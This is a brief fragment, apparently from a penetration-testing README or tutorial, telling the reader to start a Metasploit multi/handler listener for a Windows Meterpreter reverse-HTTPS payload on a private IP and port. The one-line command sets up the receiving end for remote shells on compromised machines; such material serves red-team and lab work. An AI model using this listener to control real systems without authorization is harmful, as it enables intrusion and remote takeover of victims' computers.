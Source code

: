 Open up a terminal window and start the listener in order to see the current active sessions.

`msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_https; set LHOST 192.168.100.100; set LPORT 4443;set ExitOnSession false;exploit -j -z;"`

